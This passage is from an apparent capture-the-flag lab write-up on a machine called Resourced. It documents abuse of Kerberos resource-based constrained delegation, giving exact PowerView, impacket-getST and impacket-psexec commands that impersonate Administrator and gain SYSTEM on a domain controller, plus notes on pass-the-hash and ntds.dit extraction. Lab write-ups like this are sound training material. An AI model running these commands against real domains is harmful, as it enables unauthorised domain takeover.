To do this I will need the SID of the `SRV01` machine which can be obtained and saved into a variable with the command:


```powershell
$ComputerSid = Get-DomainComputer SRV01 -Properties objectsid | Select -Expand objectsid
```


Next I will create a security descriptor and save it into `$SD` with the command:


```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
```


Next I need to convert the $SD variable to a binary representation of itself:


```powershell
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```


I create a `$targetComputer` variable and set it to `ResourceDC`. Now I set the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on `ResourceDC` with the command:


```powershell
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```


To check that it worked I use the command:


```powershell
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'
```


These steps seem to have been successful:

<figure><figcaption><p>Output of the previous commands</p></figcaption></figure>

According to the [walk-through](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation#configuring-resource-based-constrained-delegation) the output in the green box in the screenshot above indicates success.

#### Complete S4U Attack

At this point most of the examples start using Rubeus as they are Windows-based. Instead I will be using Impacket's [`getST.py`](https://github.com/fortra/impacket/blob/master/examples/getST.py) which will allow me to save the service ticket as a `.ccache` file and then use it with Impacket's `PsExec`.

What is really being done is I am leveraging Windows S4U (Service For User) extensions to obtain a service ticket on behalf of of `SRV01`. I will then pass this ticket while attempting to access `ResourceDC`. Because of the KRBCD configured [above](resourced.md#configuring-krbcd), passing the `SRV01` ticket should grant me the ability to impersonate anyone on `ResourceDC`.

The command to extract a service ticket is:


```bash
impacket-getST -spn cifs/resourcedc.resourced.local resourced/srv01:'P@ssword123!' -impersonate Administrator -dc-ip 192.168.200.175
```


When run the command automatically saves my ticket to a file called `Administrator.ccache`. The comment at the top of `getST.py` explains what to do once the hash is obtained:

<figure><figcaption><p>Instructions to proceed</p></figcaption></figure>

&#x20;Not really understanding what this does I look at the [Kerberos documentation](http://web.mit.edu/kerberos/krb5-devel/doc/basic/ccache\_def.html#default-ccache-name) and find this:

<figure><figcaption><p>Kerberos documentation</p></figcaption></figure>

I google how to use `PsExec` with the environment variable and find [this article](https://kylemistele.medium.com/impacket-deep-dives-vol-2-attacking-kerberos-922e8cdd472a) which indicates I can run `PsExec` with the `-no-pass` and `-k` flags to skip password authentication and then it will use my `Administrator.ccache` file.

Obtaining the service ticket and setting the environment variable:

<figure><figcaption><p>Preparing the attack</p></figcaption></figure>

#### Using the Ticket

The only other wrinkle is that Impacket's PsExec will need to access the service via a DNS lookup. Recall that the ticket was created for `resourcedc.resourced.local`. Thus the command will need to be:


```bash
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.200.175
```


In order to make this work I need to add the following entry as the last line of my `/etc/hosts` file:


```
...
192.168.200.175 resourcedc.resourced.local
```


Then running the command gets me `SYSTEM` access:

<figure><figcaption><p>Admin access achieved</p></figcaption></figure>

## Learned

* **`enum4linux`:** This should become part of my first pass at any Windows machine. I spent a bunch of time messing around with other stuff but the first run of that command got me a set of credentials which allowed me to extract the `ntds.dit` file.
* **Always try to pass-the-hash:** when I first obtained the hashes from `ntds.dit` I immediately went about cracking them which isn't a bad place to start but it is even easier to pass the hash. Especially given I was unable to crack the hashes so passing them was my only move
* **Kerberos Resource-based Constrained Delegation:** I had never heard of this concept and did not know how it could be abused. After this machine I feel I have a pretty good grasp on the concept and can reference this write up if I find another instance of `GenericAll` permissions on the DC.

### Difficulty Rating

* **Foothold - 6/10:** Took me awhile but once I tried `enum4linux` the dominoes started tumbling
* **Privilege Escalation - 4/10:** Quickly found `GenericAll` on `ResourceDC` with my user but it took me a bit to figure out what tools to use to leverage this correctly.
